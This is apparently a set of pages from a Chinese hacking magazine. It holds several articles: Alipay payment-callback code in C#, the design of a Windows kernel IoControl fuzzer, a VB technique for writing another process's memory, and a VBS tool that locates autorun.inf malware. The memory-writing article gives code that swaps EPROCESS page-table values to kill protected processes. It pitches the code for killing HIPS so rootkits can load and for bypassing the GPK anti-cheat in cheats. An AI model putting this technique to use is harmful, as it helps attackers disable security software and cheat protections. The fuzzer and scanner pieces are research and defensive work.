
```csharp
string sign = Request.Form["sign"];
string strOrderNO = Request.Form["out_trade_no"];
if (mysign == sign && responseTxt == "true")
{
    string strPrice = Request.Form["total_fee"];
    decimal total_fee = 0M;
    if (!string.IsNullOrEmpty(strPrice))
    {
        total_fee = decimal.Parse(strPrice);
    }

    if (Request.Form["trade_status"] == "TRADE_FINISHED"
        || Request.Form["trade_status"] == "TRADE_SUCCESS"
        || Request.Form["trade_status"] == "WAIT_SELLER_SEND_GOODS"
        || Request.Form["trade_status"] == "WAIT_BUYER_CONFIRM_GOODS")
    {
        int m = 0;
        int n = 0;
        int k = 0;
        int runTime = 10;
        List<VendorOrder> vendorOrderList = new List<VendorOrder>();
        vendorOrderList = alipayservice.GetVendorOrder(strOrderNO);
        bool successpay = false;
        successpay = alipayservice.UpdateMemberOrderAlipayFlag(strOrderNO);
        while (successpay != true && k < runTime)
        {
            k++;
            successpay = alipayservice.UpdateMemberOrderAlipayFlag(strOrderNO);
        }
    }
}
```

```csharp
// 修改会员订单和供货商订单中的付款状态
bool paysuccess = false, addsuccess = false;
paysuccess = alipayservice.UpdateMemberOrderAndVendorOrderPaymentStatus(strOrderNO, 2, vendorOrderList);
// 状态2为“已付款”
while ((!paysuccess) && (m < runTime))
{
    m++;
    paysuccess = alipayservice.UpdateMemberOrderAndVendorOrderPaymentStatus(strOrderNO, 2, vendorOrderList);
}
// 添加相应的订单参数
addsuccess = alipayservice.AddOrderStatusLog(strOrderNO, 2);
while ((!addsuccess) && (n < runTime))
{
    n++;
    addsuccess = alipayservice.AddOrderStatusLog(strOrderNO, 2);
}
Response.Write("success"); // 返回给支付宝消息，成功
}
else
{
    // 给系统管理员发邮件
    List<FRIMYLECLibrary.ModelEntity.User.User> userList = new List<FRIMYLECLibrary.ModelEntity.User.User>();
    userList = alipayservice.GetSystemManager();
    string subject, body;
    // 邮件的主题和内容
    subject = "支付宝传送异常" + strOrderNO + "";
    body = "失败时间" + DateTime.Now.ToString("yyyy年MM月dd日hh时mm分ss秒") + "\n失败原因" + Alipay.GetReturnError(sign) + "";
    foreach (FRIMYLECLibrary.ModelEntity.User.User user in userList)
    {
        Email email = new Email(user.AccountName, subject, body);
        email.SendAsync();
    }
    Response.Write("fail");
}
```

返回页面是传递给支付宝时的 return_url 参数所对应的页面文件。返回页面的后台代码与通知页面类似。在该页面中，首先从配置文件中取出商家ID、商家支付宝账号和安全校验码，并进行排序，然后构造待经过 MD5 加密的字符串并对其加密。最后验证支付宝发送过来的消息，看看签名是否正确。对于返回页面而言，当买家的购买流程已经走到支付宝中且支付宝提示支付成功时，页面会自动跳转回自家网站的这个页面里来；返回页面是同步的，获得参数的方法是用 GET 方式获取，不论跳转回来程序判断是真还是假，只跳转回来一次。

## 2. 页面公用方法分析

对于通知页面和返回页面公用的方法，可以抽取出来存放于 Alipay.cs，如图3所示。


图3

- 1. 定义支付宝返回错误常量。例如以下代码格式：

```csharp
public const string ILLEGAL_ARGUMENT_Value = "属于参数格式有问题或者请求发送页的参数是否符合要求";
public const string DIRECT_PAY_AMOUNT_OUT_OF_RANGE_Value = "属于快速付款交易，总金额超出最大值限制，快速付款余额支付最大限制为2000，网卡没限制";
```

- 2. 根据支付宝返回的错误类型得出错误描述。这里主要使用了“switch-case”语句。

```csharp
public static string GetReturnError(string sign)
{
    string result = "";
    switch (sign)
    {
        // 参数格式问题
        case "ILLEGAL_ARGUMENT":
            result = ILLEGAL_ARGUMENT_Value;
            break;
        // 总金额超出最大值限制
        case "DIRECT_PAY_AMOUNT_OUT_OF_RANGE":
            result = DIRECT_PAY_AMOUNT_OUT_OF_RANGE_Value;
            break;
        default:
            result = DEFAULT_Value;
            break;
    }
    return result;
}
```

- 3. MD5加密算法，即上文所说的 `GetMD5()` 函数。

```csharp
public static string GetMD5(string s, string input_charset)
{
    MD5 md5 = new MD5CryptoServiceProvider();
    byte[] t = md5.ComputeHash(Encoding.GetEncoding(input_charset).GetBytes(s));
    StringBuilder sb = new StringBuilder(32);
    for (int i = 0; i < t.Length; i++)
    {
        sb.Append(t[i].ToString("x").PadLeft(2, '0'));
    }
    return sb.ToString();
}
```

- 4. 冒泡排序。以下为排序的具体方法。

```csharp
public static string[] BubbleSort(string[] r)
{
    int i, j;
    string temp;
    bool exchange;
    for (i = 0; i < r.Length; i++)
    {
        exchange = false;
        for (j = r.Length - 2; j >= i; j--)
        {
            if (System.String.CompareOrdinal(r[j + 1], r[j]) < 0)
            {
                temp = r[j + 1];
                r[j + 1] = r[j];
                r[j] = temp;
                exchange = true;
            }
        }
        if (!exchange)
            break;
    }
    return r;
}
```

通过这些公用方法，可以大大提高代码编写效率。

## 3. 页面调用支付宝程序的关键代码

在调用支付宝程序的支付页面中，关键代码如下：

```csharp
protected void btnToAlipay_Click(object sender, EventArgs e)
{
    AlipayService alipayService = new AlipayService();
    string memberOrderID = Session["OrderShowMemberOrderId"].ToString();
    string productNames = alipayService.GetProductNamesByMemberOrderID(memberOrderID);
    decimal totalFee = alipayService.GetAllPayment(memberOrderID);
    string url = Tool.GetRootURL();
    if (totalFee <= 0)
    {
        MessageBox.Show(thisPage, "您没有设定支付宝付款金额");
    }
    else
    {
        // 业务参数赋值
        string gateway = ConfigurationManager.AppSettings["gatewayAlipay"].ToString();
        string service = ConfigurationManager.AppSettings["serviceAlipay"].ToString();
        string seller_email = ConfigurationManager.AppSettings["seller_emailAlipay"].ToString();

        string notify_url = url + "/Modules/Order/CvicseAlipayNotify.aspx";
        string return_url = url + "/Modules/Order/CvicseAlipayReturn.aspx";

        Alipay ap = new Alipay();
        string aliay_url = ap.CreatUrl(gateway, service, partner, sign_type, out_trade_no, subject, body, payment_type, price, show_url, seller_email, key, return_url, input_charset, notify_url, quantity);
        Response.Redirect(aliay_url);
    }
}
```

其中，在省略部分中，可以使用类似的方法设置加密类型、安全校验码、商户ID、编码类型、支付类型、购买数量等。

##### 常见问题分析

开发过程中难免会遇到一些疑难杂症。在调试过程中，用支付宝付款的功能必须进行实际的支付操作才能发现错误。下面列举几个常见的问题。

## 1. 出现“HAS_NO_PRIVILEGE”（没有权限）的提示

在测试过程中，遇到的第一个问题是提示出现 HAS_NO_PRIVILEGE，在官方给出的 API 介绍中是这样解释的：“该错误提示的是，您没有使用该接口的权限，那么登录自己的支付宝账户，查看实物交易服务或者虚拟物品交易服务，如果没有申请，请立刻申请并且当时开通。”可以很肯定的是，已经开通了服务，那么问题就不是出在这儿。通过仔细查阅 API 后发现，service 的参数设置错误。所以在开发中请注意，如果选择的是：

```
标准双接口交易 -> service=trade_create_by_buyer
即时到账交易 -> service=create_direct_pay_by_user
```

这里一定要填写正确，否则就会出现没有权限这样的问题。

## 2. 支付成功后返回错误的页面

支付成功了，但是总是返回错误的页面。首先看看以下的代码：

```csharp
// 生成MD5摘要
string mysign = GetMD5(prestr.ToString(), _input_charset);
```

```csharp
string sign = Request.QueryString["sign"];
if (mysign == sign && responseTxt == "true")
// 验证支付宝过来的消息签名是否正确
{
    Response.Write("success"); // 返回给支付宝消息，成功
}
else
{
    Response.Write("fail");
}
```

在这里，如果 mysign 和 responseTxt 为 false，则会显示错误信息。这是由于在 Return 页面中，没有设置支付宝安全校验码（key）和合作伙伴id（partner），解决方法是在 page_load 中加入常量：

```csharp
String key = "xxxxxxxxxxxxxxxx";
// 你的安全校验码
String partner = "xxxxxxxxxxxxxxxx";
// 你的合作伙伴id
```

这样加入后，当付款成功时，就会返回正确的了。在转接调试过程中，必须真实地从网站购买商品并跳转到支付宝网付款，可以将所买商品的单价设为 0.01 元，从支付宝付款成功并重新跳回本网站后，检查订单信息是否正确，以及对传回的数据所做的处理操作是否正确。也就是说，在调试过程中，还必须尽量使用实际的支付操作功能，才能发现潜在的错误。这样，就能够在网络安全支付中知己知彼，尽可能提高安全性。

前置知识：VC  
关键词：内核漏洞，IoControlFuzzer

#### 自己开发内核漏洞挖掘工具 IoControlFuzzer

文／图 shineast

##### 内核漏洞挖掘的心态

漏洞挖掘过程中，不仅需要大量的时间、精力、知识、经验，更需要的是心态。事实上，漏洞挖掘的结果大多会以失败告终，成功只会留给那些技术精湛且具备良好心态的黑客。那么要挖掘漏洞，应具备怎样的心态呢？这里笔者仅给出个人的看法，作为一个高素质的漏洞挖掘黑客，应至少具备以下心态。

- 1. **举一反三**  
  发现一种问题后，能够想到更多类似的问题，从而发现其他漏洞的存在，这是漏洞挖掘应具备的最基本的心态。
- 2. **耐心细致**  
  耐心细致，不遗不漏，只有这样才能覆盖尽量多的情形，尽可能发现问题，而不会与漏洞失之交臂。
- 3. **锲而不舍**  
  锲而不舍，金石可镂，问题总是客观存在的，我们发现不了是我们自身的问题，只有坚持不懈，才有可能取得成功。
- 4. **行成于思**  
  行成于思，业精于勤，做事情成功是因为多思考，失败是由于漫不经心，只有多思考，才能打破僵局，发现更宽广的天地。
- 5. **善于总结**  
  善于总结，温故而知新，不断地积累，才能不断地提高。旧的东西往往能迸发出新的火花，给予灵感。

##### 内核漏洞挖掘的思路

漏洞挖掘有两种方式，一是工具挖掘，二是手工挖掘。无论哪种方式，都需要漏洞经验作为基础。如果能亲自分析大量的漏洞，这些经验自然会从中升华而出。进行漏洞挖掘，首先要有一个切入点。笔者能想到的几个切入点如下：

- 1. **内核API函数**  
  内核API函数是提供给Ring3调用实现功能的函数。这些函数接收Ring3传入的参数，处理参数的过程如果存在问题的话，很有可能成为一个内核漏洞。这样的内核API函数有很多，例如SSDT、Shadow SSDT等。
- 2. **Hook API的代码**  
  目前有很多安全软件为了防御病毒木马，对很多内核API进行了Hook/Inline Hook，然而这些Hook内核API的代码也存在安全问题。如果对参数的处理不当，也很有可能出现内核漏洞。
- 3. **网络协议处理的内核代码**  
  有一些协议的处理是在 system 进程中的，也就是在内核模块中处理的，可以通过网络协议Fuzz来挖掘这方面的漏洞。
- 4. **IoControl**  
  从已公布的漏洞来看，IoControl类型的漏洞非常多，可以作为内核漏洞挖掘的重点方向。IoControl作为Ring0/Ring3缓冲区交互的重要方式，难免会出现代码编程方面的问题，还有可能存在内部逻辑上的问题。

那么如何挖掘这种类型的漏洞呢？首先我们看看IoControl过程中Ring3使用的一个重要的函数——DeviceIoControl函数。

```c
BOOL DeviceIoControl(
    HANDLE hDevice,              // 设备句柄
    DWORD dwIoControlCode,       // Io控制号
    LPVOID lpInBuffer,           // 输入缓冲区指针
    DWORD nInBufferSize,         // 输入缓冲区字节数
    LPVOID lpOutBuffer,          // 输出缓冲区指针
    DWORD nOutBufferSize,        // 输出缓冲区字节数
    LPDWORD lpBytesReturned,     // 返回输出字节数
    LPOVERLAPPED lpOverlapped    // 异步调用时指向的OVERLAPPED指针
);
```

该函数共有8个参数，hDevice是要通信的设备句柄；dwIoControlCode是Io控制号；lpInBuffer是输入缓冲区指针；nInBufferSize是输入缓冲区字节数；lpOutBuffer是输出缓冲区指针；nOutBufferSize是输出缓冲区字节数；lpBytesReturned是返回输出字节数；lpOverlapped是异步调用时指向的OVERLAPPED指针。

我们可以试想，正常情况下，DeviceIoControl函数的参数都是自己程序指定的，不会指定那些畸形的参数，驱动中也主要考虑功能的实现。对于畸形参数和处理逻辑缺陷方面的安全问题不够重视。因此我们可以很容易地通过构造畸形参数来Fuzz驱动程序的处理是否存在漏洞。我们将这种Fuzz称为IoControl Fuzz。

- 1. **IoControl MITM（Man-in-the-Middle）Fuzz**  
  这种方法类似于“中间人攻击”，其实就是在内核Hook NtDeviceIoControlFile函数，当识别到IoControl的对象为要Fuzz的对象时，获取该函数调用的参数，并按照预先的Fuzz策略对参数或参数指向的缓冲区数据进行篡改，然后将篡改后的参数传递给原始的NtDeviceIoControlFile函数，如图1所示。

Fuzz的漏洞挖掘技术。因此我们将重点关注这种思路下的内核漏洞挖掘，通过挖掘工具的开发，揭示该思路的具体细节。


如果发送给NtDeviceIoControlFile函数畸形的参数和数据后，发生了内核崩溃或蓝屏，往往预示着该驱动程序可能存在内核漏洞。进行后续的手动分析后，不难得出结论。

## 2. IoControl Driver Fuzz

上面提到的“中间人”方式的Fuzz，虽然比较巧妙，但多数情况下，难以覆盖某驱动程序所有的IoControlCode。就算能够覆盖所有的IoControlCode，但是这种Fuzz的过程只是“一次性”的，不够全面。

为了能够对驱动程序中某个IoControlCode做全面的Fuzz，我们需要对DeviceIoControl函数的每个参数都进行畸形化，每个参数值可以畸形出很多不同的参数值，然后各个参数进行组合。那么完成一次全面的Fuzz要调用很多次DeviceIoControl函数。因此本文将这种Fuzz方法称为IoControl Driver Fuzz，针对的就是某个驱动，进行全面的Fuzz。

##### 现有的内核漏洞挖掘工具

工欲善其事，必先利其器。虽然我们已经有了大概的IoControl Fuzz的思路，但是要开发这样一个漏洞挖掘工具，首先应该调研一下这方面是否已经有前人做过。

果不其然，笔者看到俄罗斯莫斯科有一家公司 的安全研究实验室——eSage Lab（http://www.esagelab.com），其网站（如图2所示）上有一个开源工具，叫做IOCTL Fuzzer。


IOCTL Fuzzer是一个命令行式的Windows内核驱动挖掘工具，以下是该网站上对该工具的介绍：

- IRP filtering by process name, driver name, device name, or I/O Control code
- IRP fuzzing
- monitoring mode
- logging output to console and/or file

While processing IRPs, the fuzzer will spoof those IRPs conforming to conditions specified in the configuration file. A spoofed IRP is identical to the original IRP in all respects except the input data, which is changed to randomly generated fuzz.

可以看出，该工具所采用的Fuzz方法正是我们前一节中提到的IoControl MITM（Man-in-the-Middle）Fuzz方法，即IoControl中间人Fuzz。该工具独特之处是使用了xml配置文件，如图3所示。

图3

通过 XML 来配置 Fuzz 对象和 Fuzz 策略固然简单，但是不够灵活，每次改变 Fuzz 对象和 Fuzz 策略，需要重启 Fuzz 程序，实际使用可能不太方便。而且 Fuzz 策略不够细致，可能会有所遗漏。鉴于此，笔者依然决定自己开发一个能够实现前面提到的两种 IoControl Fuzz 思路的内核漏洞挖掘工具。

##### 自己开发内核挖掘工具

笔者开发了一个带有界面的 IoControl Fuzz 工具，利用此工具能够进行前面提到的 IoControl MITM Fuzz 和 IoControl Driver Fuzz。该工具的实现代码请参考配套光盘中的源码，这里仅给出该工具中这两种 Fuzz 的关键概念和概要设计。

### 1. Fuzz 对象、Fuzz 策略、Fuzz 项

首先提出几个概念：Fuzz 对象、Fuzz 策略、Fuzz 项。

- **Fuzz 对象**：是指被 Fuzz 的对象或触发 Fuzz 的条件；
- **Fuzz 策略**：是指针对 Fuzz 对象，Fuzz 过程中对参数和数据畸形化的方案；
- **Fuzz 项**：Fuzz 对象和 Fuzz 策略合起来，称为一个 Fuzz 项。

对于我们的 Fuzz 程序来说，所有的 Fuzz 项就是其输入。Fuzz 程序应该支持多个 Fuzz 项同时工作，而且还能够灵活地增删改这些 Fuzz 项的内容，不必重启 Fuzz 引擎。

### 2. IoControl MITM Fuzz

IoControl MITM（Man-in-the-Middle）Fuzz 是以中间人的方式，在识别到 Fuzz 对象后，在调用原始 NtDeviceIoControlFile 函数前，按照 Fuzz 策略对参数和数据进行畸形化，并调用原始 NtDeviceIoControlFile 函数的过程，如图4所示。

图4

IoControl MITM Fuzz 的 Fuzz 对象可以由以下字段共同指定：

- 1. 进程 pid，或进程路径；
- 2. 设备名称；
- 3. IoControlCode。

其中任何一个字段为空，表示匹配所有。例如 IoControlCode 为空，则表示某进程发到某设备的所有 IoControlCode 都会被 Fuzz。

IoControl MITM Fuzz 的 Fuzz 策略主要包括对输入地址、输入数据、输入长度、输出地址、输出长度的畸形化方案。

- 输入地址的畸形化方案如下：
  - (1) 不变；
  - (2) 随机；
  - (3) 非法地址；
  - (4) 合法 Ring3 地址；
  - (5) 合法 Ring0 地址。
- 输入数据的畸形化方案如下：
  - (1) 不变；
  - (2) 随机；
  - (3) Byte 填充；
  - (4) Word 填充；
  - (5) Dword 填充。
- 输入长度的畸形化方案如下：
  - (1) 不变；
  - (2) 随机；
  - (3) 增加一定长度；
  - (4) 减小一定长度。
- 输出地址的畸形化方案如下：
  - (1) 不变；
  - (2) 随机；
  - (3) 非法地址；
  - (4) 合法 Ring3 地址；
  - (5) 合法 Ring0 地址。
- 输出长度的畸形化方案如下：
  - (1) 不变；
  - (2) 随机；
  - (3) 增加一定长度；
  - (4) 减小一定长度。

### 3. IoControl Driver Fuzz

IoControl Driver Fuzz 是对 Fuzz 对象（驱动设备）主动发送一系列 IoControl，并对参数和数据，按照 Fuzz 策略分别进行畸形化并组合成一组参数，调用 DeviceIoControl 进行 Fuzz 的过程，如图5所示。

IoControl Driver Fuzz 的 Fuzz 对象可以由以下字段共同指定：

- (1) 设备对象或设备名称；
- (2) IoControlCode。

IoControl Driver Fuzz 的 Fuzz 策略根据 IoControlCode 中 Method 值的不同，有以下两种情况。

- (1) IoControlCode 中 Method != METHOD_NEITHER，由于输入输出都有系统保护，故篡改地址没有意义，因此需要 Fuzz 输入数据、输入长度、输出长度。
- (2) IoControlCode 中 Method == METHOD_NEITHER，驱动中可能直接访问输入输出地址，而没有探测是否可读写，因此需要 Fuzz 输入地址、输入数据、输入长度、输出地址、输出长度。

图5

- 输入地址的畸形化方案如下：
  - (1) 随机；
  - (2) 非法地址；
  - (3) 合法 Ring3 地址；
  - (4) 合法 Ring0 地址；
  - (5) 固定地址。
- 输入长度的畸形化方案如下：
  - (1) 随机；
  - (2) 固定。
- 输入数据的畸形化方案如下：
  - (1) 随机；
  - (2) Byte 填充；
  - (3) Word 填充；
  - (4) Dword 填充。
- 输出地址的畸形化方案如下：
  - (1) 随机；
  - (2) 非法地址；
  - (3) 合法 Ring3 地址；
  - (4) 合法 Ring0 地址；
  - (5) 固定地址。
- 输出长度的畸形化方案如下：
  - (1) 随机；
  - (2) 固定。

### 4. MyIoControl Fuzzer 界面

本 Fuzz 工具将两种 Fuzz 方法实现在同一个对话框中。如图6所示，左侧上方显示当前进程列表，左侧下方显示驱动对象的树状结构，右侧上方能够监视系统中的 DeviceIoControl 调用，右侧中间便是 IoControl MITM Fuzz 的 Fuzz 项列表，右侧下方是 IoControl Driver Fuzz 的 Fuzz 项。

工具开发出来了，是骡子是马，得拉出来溜溜，证明一下这种漏洞挖掘思路是否可行。通过笔者一段时间对 Windows 系统、安全软件、第三方驱动程序的撒网测试，借助于此挖掘工具，确实发现了很多漏洞。

通过该工具，在 IoControl MITM Fuzz 列表中可以增删改 Fuzz 项，单击右侧中间的“+”按钮，可以弹出如下对话框，来添加 Fuzz 对象和 Fuzz 策略，如图7所示。

相应地，在 IoControl Driver Fuzz 列表中，也可以增删改 Fuzz 项，单击右侧下方的“+”按钮，可以弹出如下对话框，来添加 Fuzz 对象，而 Fuzz 策略由程序内部 Fuzz 逻辑而定，如图8所示。

### 5. 内核漏洞挖掘实战

既然自己的 IoControl Fuzz 漏洞挖掘工具已经开发出来了，是骡子是马，得拉出来溜溜，证明一下这种漏洞挖掘思路是否可行。

这里我们选择一些已经秘密上报给厂商，并且厂商已经修补完成，同意在教学研究场合下公布的漏洞。这些漏洞的细节请参考本期《黑客防线》的另外两篇文章——《超级巡警 <= v4 Build0316 ASTDriver.sys 本地特权提升漏洞》和《东方微点主动防御 <= 1.2.10581.0278 Mp110013.sys 本地特权提升漏洞》。

#### 特殊方法实现读写进程内存

前置知识：VB  
关键词：特殊方法、读写进程内存

文/图 胡文亮（广东工业大学）

在 2010 年 2 月份的《黑客防线》杂志上，我写过一篇文章叫《打造无敌内存清零和过 NP 的内存读写》，其本质是把 EPROCESS 中 DirectoryTableBase[0] 的值放到 CR3 寄存器，中写完进程内存后再恢复 CR3 寄存器的原值。当然，“无敌”这个形容词有点过分了，因为还是有办法来防御。但是目前却没有发现任何游戏保护类产品防御那种读写内存的方式，这并不是搞游戏保护的驱动工程师没有本事，而是通过自行修改 CR3 寄存器的值来读写内存的方法并不稳定，经我测试，这种方法在物理内存比较小（<=96MB）的时候容易蓝屏。

写入漏洞很容易找，比如迅雷就有，这个在以前的杂志上曝光过。后来我听“渔家傲”说，鲁大师、XX卫士、YY管家等电脑维护类软件所带的驱动都有类似的漏洞。特别是鲁大师的驱动，带有真的驱动签名（非测试签名），却没有校验驱动调用者（道听途说，未证实）。8 月份的时候，微软又出了个严重的内核任意地址写入漏洞，这个在很多漏洞收集网站（比如 sebug.net）上有介绍，大家可以自己去看。

但是这种另类读写进程内存的思路是好的，有没有办法让它发扬光大呢？山不转水转，既然我们不方便直接修改 CR3 寄存器的值，就修改 DirectoryTableBase[0] 的值。我的思路是这样的。

- 1. 得到目标的进程（T.EXE）的 EPROCESS（EPROC_T）。
- 2. 创建并挂起一个傀儡进程（M.EXE），得到它的 EPROCESS（EPROC_M）。
- 3. 读取 EPROC_M+0x18 处的值，长度为 4，保存到字节数组 o_dtb。
- 4. 读取 EPROC_T+0x18 处的值，长度为 4，保存到字节数组 dtb。
- 5. 把 dtb 的值填写到 EPROC_M+0x18 处（修改 EPROC_M+0x18 处的值）。
- 6. 修改 M.EXE 的进程内存。
- 7. 把 o_dtb 的值填写到 EPROC_M+0x18 处（恢复 EPROC_M+0x18 处的原值）。
- 8. 结束 M.EXE 的进程。

只要能写内核内存，就能实现我上述的思路。我以卸载 NTDLL 杀进程为例子，用 VB 写了一份代码（你没看错，这是纯 VB 写的，没有用到任何驱动程序），为了演示方便，我没有去找某个软件的漏洞而是直接使用了 NtSystemDebugControl（其实微软认为这个函数是“漏洞”）。

可能有人看完上述思路会感到一头雾水，修改傀儡进程的内存跟修改目标进程的内存有关系吗？关系是大大的有。第六步中修改傀儡进程的内存就是修改了目标进程的内存！原因很简单，因为傀儡进程的 DirectoryTableBase[0] 的值和目标进程的 DirectoryTableBase[0] 的值相同。

利用修改 CR3 寄存器值来清零进程内存是通过驱动实现的，但是现在驱动越来越难加载，Rootkit 只有在把 HIPS 的进程杀死才能加载驱动。由于 Ring 3 杀进程的手法就这么多，经过几年的曝光，基本所有 HIPS 都防御了。这个似乎陷入了一个死循环：Rootkit 必须把 HIPS 的进程杀死才能加载驱动，但强制杀死 HIPS 的进程又必须靠驱动才能实现。难道没有突破这个循环的方法吗？经我思考，这个方法还是有的，但是有个前提：找到内核任意地址写入漏洞。

```vb
Public Sub UnloadNtdllEx(ByVal dwPid As Long)
    Dim dtb(3) As Byte, o_dtb(3) As Byte
    Dim MyExeId As Long, TkExeId As Long
    Dim MyExeEP As Long, TkExeEP As Long

    MyExeId = RunEXE("calc.exe")
    TkExeId = dwPid

    MyExeEP = PsLookupProcessByProcessId(MyExeId)
    TkExeEP = PsLookupProcessByProcessId(TkExeId)

    DumpKernelMemory MyExeEP + &H18, 4, o_dtb
    DumpKernelMemory TkExeEP + &H18, 4, dtb
    ModifyKernelMemory MyExeEP + &H18, 4, dtb

    UnloadNtdll MyExeId

    ModifyKernelMemory MyExeEP + &H18, 4, o_dtb
    KillMyProcess MyExeId
End Sub
```

```vb
If nProcess = 0 Then Exit Sub
NtUnmapViewOfSection hProcess, GetModuleHandle("ntdll.dll")
ZwClose hProcess
Sleep 1000
End Sub
```

经测试，直接使用 UnloadNtdll 无法杀死 XueTr，UnloadNtdllEx 则可以。本代码测试环境为 Windows XP SP3。由于 NtSystemDebugControl 在 Windows 2003 SP0 以后被废除了“武功”（读写内核内存的功能不再能用），所以这份纯 VB 写的代码只在 XP 上有效。但是随便写个读写内核内存的驱动，则能在任何 32 位 NT 系统上使用。

图1

我曾经说过，杀进程是游戏，在实用上没有任何意义。为了证明我的发现有实用价值，我特地拿最近的热门网游“龙之谷”进行了测试。龙之谷使用 GPK 保护，GPK 在百度百科上的介绍十分骇人：GPK 是一款盛大全新推出的游戏保护工具，它可以有效地保护游戏不受外挂侵犯。GPK 从设计之初就已针对各类外挂做了充分的准备，从 GPK 构架上就已经杜绝了脱机外挂存在的可能；与此同时，GPK 拥有数十种先进、成熟的技术手段打击各类外挂。由于外挂的根本原理就是读写进程内存，而卸载 NTDLL 也是读写进程内存（详情请参考 WRK/ReactOS 源码），所以只要我的程序能够结束龙之谷的进程，就是说我的程序已经成功读写了龙之谷的进程内存。

我们首先用 XueTr 检查一下 GPK 是如何进行游戏保护的，如图2所示。

图2

GPK 挂钩了 11 个内核函数，有几个是和读写进程内存相关的，可惜还是老一套，相信认真看过《黑客防线》一年以上的读者都可以写出来。首先尝试用任务管理器和我的程序的“普通模式”来结束龙之谷进程，如图3所示。

图3

随后使用“强力模式”来结束龙之谷进程，龙之谷进程被结束，如图4所示。

图4

由此可见 GPK 的骇人不是反外挂技术上骇人，而是吹牛技术上骇人。不过由于还是没有直接证据证明我的发现能应用在外挂上，所以我另外写了三个程序：一个是（Windows 自带游戏）扫雷的外挂，一个是保护扫雷不受扫雷外挂影响的反外挂程序（通过 Hook KeStackAttachProcess 实现），一个是扫雷外挂增强器，让“扫雷外挂”无视“扫雷反外挂”继续起到外挂的作用。经测试，这种读写进程内存的方法不仅仅在杀进程方面有效，在搞外挂方面同样有效。测试步骤如下：

- 1. 开启“扫雷”，开启“扫雷反外挂”并对“扫雷”的进程进行保护，会提示保护成功。
- 2. 开启“扫雷外挂”，选择“自动扫雷”，按下“扫描”按钮，输入“扫雷”的进程 ID，会提示出错。
- 3. 开启“扫雷外挂增强器”，输入“扫雷”的进程 ID，会弹出“傀儡进程”的进程 ID。
- 4. 开启“扫雷外挂”，选择“自动扫雷”，按下“扫描”按钮，输入“傀儡进程”的进程 ID。
- 5. 扫雷游戏会在三秒钟之内结束并提示破了“扫雷英雄榜”的记录。

“扫雷外挂”在“扫雷反外挂”的干扰下失去作用，如图5所示。  
无视“扫雷反外挂”干扰，如图6所示。

图5  
“扫雷外挂”在“扫雷外挂增强器”的作用下  
图6

本文就《无敌内存清零》一文中的进程内存读写方式做了改进，在最后的测试中，可见这种读写进程内存的方式可用，稳定而且极具商业价值，以后可能会被广泛应用在外挂类程序上。而反外挂厂商只有继续攀登技术高峰，才能防住那些使用了本文这种技术制作的外挂。

前置知识：VBS  
关键词：autorun 病毒，VBS 脚本，编码

#### VBS 实现通用定位 autorun.inf 中病毒体的路径

文／图 Scriptkid

本文用到的对象 WMI、Wscript.Shell、FSO、ADB 中 Wscript 与 FSO 在脚本中起到界面交互和文件删除作用，也可以不用，只用 WMI，这样的好处是可以在很多禁用 FSO 和 Wscript.Shell 的机器上运行。测试环境 Windows XP SP3，VBS 编辑器 Notepad++。

脚本暂且命名为 Ukill，编写经历了两个版本。V1.0 诞生在 2008 年 12 月……通过 `list="vbs,exe,com,bat,pif,cmd,src,vbe"` 正则匹配，逐行搜索 autorun.inf 里的 `=` 与 list 间内容来定位执行病毒体 Administrator.vbs 路径……如果在 autorun.inf 里用 `wscript /e,vbscript XXX` 来启动 VBS 的话，这样的 VBS 根本就没有后缀名，就绕过了检测。

2009 年整理硬盘资料发现这个小脚本，觉得很有意思，于是有了 V2.0。V2.0 彻底改变了匹配规则，并加入了 FSO 快速扫描、文件十六进制深入扫描两种分析功能、判定 INF 编码是 Unicode 还是 ANSI 功能、自身完整性校验保护功能，比 V1.0 有了很多提高。这里把 V2.0 编写中的点滴乐趣和大家分享如下。

首先，我们要辨别 INF 的编码是 Unicode 还是 ANSI，这样辨别有两个用处。

- （1）因为 Unicode 和 ANSI 的十六进制区别……从而给后面的十六进制分析埋下伏笔，那就是匹配规则如何更加通用准确地确定？
- （2）在 FSO 快速扫描功能里，我们需要通过 `opentextfile(path_f,1,false,-1)` 方法来打开 Unicode 编码的 INF 文件，而对于 ANSI 编码的 INF 我们需要通过 `opentextfile(path_f,1,false)` 方式来打开。如果打开方式不对，则有可能无法读取到需要匹配的信息。

我们以著名的 conficker 蠕虫的 autorun.inf 为例……该 autorun.inf 文件的编码是“Unicode Big-Endian”，如果用常见的 `opentextfile(path_f,1,false)` 来打开就会出现无法读取的情况。相关函数如下：

```vb
'FSO方式快速扫描函数
Sub fsosvirus(path_f,drive)
    If flag(Checkencoding(path_f),Unicode)=1 then
        set objf=tmpfso.opentextfile(path_f,1,false,-1)
    End If
    If flag(Checkencoding(path_f),ANSI)=1 then
        set objf=tmpfso.opentextfile(path_f,1,false)
    End If
    m=0
    do until objf.atEndofstream=true
        strline=lcase(objf.readline)
        m=m+1
        if flag(strline,"")=1 then
            ...
        end if
    loop
End Sub
```

```vb
'（左栏代码，含删除路径解析、编码检查与字符检测函数）
strlinearry=split(strline,"=",-1)
virus_p=trim(strlinearry(ubound(strlinearry)))
virus_p=lcase(drive&"\"&virus_p)
call del(virus_p)
...

Function CheckEncoding(path)
' 通过读取文件前4字节判断编码
Const adModeRead = 1
Const adTypeBinary = 1
Set objADO = CreateObject("ADODB.Stream")
With objADO
  .Mode = adModeReadWrite
  .Type = adTypeBinary
  .Open
  .LoadFromFile path
  .Position = 0
  Headers = .Read(4)
  BOM = Ucase(Replace(Escape(Headers),"%u",""))
  If Left(BOM,4)="FEFF" Then
    CheckEncoding="Unicode"
  ElseIf Left(BOM,4)="FFFE" Then
    CheckEncoding="Unicode Big Endian"
  ElseIf Left(BOM,4)="EFBB" Then
    CheckEncoding="UTF-8"
  Else
    CheckEncoding="ANSI"
  End If
End With
objADO.Close
Set objADO = Nothing
End Function

Function flag(s1,s2)
  If instr(lcase(s1),lcase(s2))>0 then
    flag=1
  Else
    flag=0
  End If
End Function
```

```vb
flag=0
End If
End Function
```

我们来说说FSO快速扫描方式中的匹配方法。先看一个可能情况的autorun.inf写法：

```ini
[autorun]
open=mm /e:vbscript xxx
shellexecute=ghost.exe 3.vmx
shell\auto\command=ghost.exe 4.vbs
shell\auto\command=ghost.pif

（框内并附有对不同变形写法的中文说明）
```

